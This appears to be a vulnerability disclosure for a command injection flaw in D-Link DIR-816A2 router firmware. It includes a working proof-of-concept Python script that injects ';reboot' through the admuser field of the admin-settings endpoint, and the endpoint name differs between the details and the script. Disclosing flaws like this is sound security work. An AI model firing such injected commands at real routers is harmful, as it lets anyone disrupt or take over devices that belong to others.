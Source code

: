 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Command Injection

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/sysSetadm.    The contents of the admuser and admpass parameters are executed as commands

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/setSysAdm'

payload = ';reboot'

data = {
    'tokenid': tokenid,
    'admuser': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

The router will restart
